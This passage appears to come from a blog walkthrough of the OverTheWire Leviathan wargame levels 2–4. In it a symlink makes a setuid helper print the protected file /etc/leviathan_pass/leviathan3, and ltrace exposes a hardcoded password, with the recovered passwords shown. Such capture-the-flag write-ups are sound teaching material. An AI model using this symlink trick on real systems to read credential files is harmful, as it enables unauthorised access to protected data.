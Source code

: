
I was right! As you can see, **/bin/cat** calls “**pass file.txt**” as two separate files, “**pass**” and “**file.txt**”. We can actually exploit this! Let’s go ahead and create a [symbolic link][13] for the “**pass**” part in “**pass file.txt**”, and link it to **/etc/leviathan_pass/leviathan3**.

    leviathan2@melinda:/tmp/jhalon$ ln -s /etc/leviathan_pass/leviathan3 /tmp/jhalon/pass
    leviathan2@melinda:/tmp/jhalon$ ls -la
    total 7864
    drwxrwxr-x 2 leviathan2 leviathan2    4096 Sep 10 04:55 .
    drwxrwx-wt 1 root       root       8036352 Sep 10 04:55 ..
    lrwxrwxrwx 1 leviathan2 leviathan2      30 Sep 10 04:55 pass -> /etc/leviathan_pass/leviathan3
    -rw-rw-r-- 1 leviathan2 leviathan2       0 Sep 10 04:54 pass file.txt
    leviathan2@melinda:/tmp/jhalon$ ~/printfile "pass file.txt"
    Ahdiemoo1j
    /bin/cat: file.txt: No such file or directory
    

And bingo was his name, OH! We got the password for leviathan3! Go do a victory lap around the house, you deserved it!

### Level 3 -> 4:

This level was a bit easier than the previous one. Just use what you learned from the previous levels to your advantage. Let’s begin by seeing what we have at our disposal.

    leviathan3@melinda:~$ ls -la
    total 32
    drwxr-xr-x   2 root       root       4096 Mar 21  2015 .
    drwxr-xr-x 172 root       root       4096 Jul 10 14:12 ..
    -rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
    -rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
    -rw-r--r--   1 root       root        675 Apr  9  2014 .profile
    -r-sr-x---   1 leviathan4 leviathan3 9962 Mar 21  2015 level3
    

Alright, we have another executable called **level3**, let’s run it and see what happens.

    leviathan3@melinda:~$ ./level3
    Enter the password> 1234
    bzzzzzzzzap. WRONG
    

Another password… great! Let’s go ahead and run `ltrace` to see what the library calls are for this program.

    leviathan3@melinda:~$ ltrace ./level3
    __libc_start_main(0x80485fe, 1, 0xffffd794, 0x80486d0 <unfinished ...>
    strcmp("h0no33", "kakaka")                       = -1
    printf("Enter the password> ")                   = 20
    fgets(Enter the password> 1234
    "1234\n", 256, 0xf7fc9c20)                 = 0xffffd58c
    strcmp("1234\n", "snlprintf\n")                  = -1
    puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
    )                       = 19
    +++ exited (status 0) +++
    


[1]: https://jhalon.github.io/
[2]: https://jhalon.github.io/posts.html
[3]: https://jhalon.github.io/categories.html
[4]: https://jhalon.github.io/about.html
[5]: http://overthewire.org/wargames/
[6]: mailto:jacek.halon@gmail.com
[7]: https://twitter.com/jack_halon
[8]: https://www.linkedin.com/in/jacek-halon-683912b0
[9]: https://github.com/jhalon/
[10]: http://overthewire.org/wargames/leviathan/
[11]: http://linux.die.net/man/1/ltrace
[12]: https://en.wiktionary.org/wiki/Google-fu
[13]: https://en.wikipedia.org/wiki/Symbolic_link
[14]: http://www.rapidtables.com/convert/number/binary-to-ascii.htm
[15]: https://twitter.com/intent/tweet?text=https://jhalon.github.io/over-the-wire-leviathan/ "Share on Twitter"
[16]: https://www.facebook.com/sharer/sharer.php?u=https://jhalon.github.io/over-the-wire-leviathan/ "Share on Facebook"
[17]: https://plus.google.com/share?url=https://jhalon.github.io/over-the-wire-leviathan/ "Share on Google Plus"
[18]: https://www.linkedin.com/shareArticle?mini=true&url=https://jhalon.github.io/over-the-wire-leviathan/ "Share on LinkedIn"
[19]: https://jhalon.github.io/over-the-wire-bandit2/ "OverTheWire: ‘Bandit’ Solutions 11-25 "
[20]: https://jhalon.github.io/over-the-wire-natas1/ "OverTheWire: ‘Natas’ Solutions 1-10 "
[21]: http://github.com/jhalon/
[22]: https://jhalon.github.io/feed.xml
[23]: http://jekyllrb.com
[24]: https://mademistakes.com/work/minimal-mistakes-jekyll-theme/
[25]: http://disqus.com/?ref_noscript
[26]: https://jhalon.github.io/over-the-wire-leviathan/
[27]: https://github.com/BrunoxD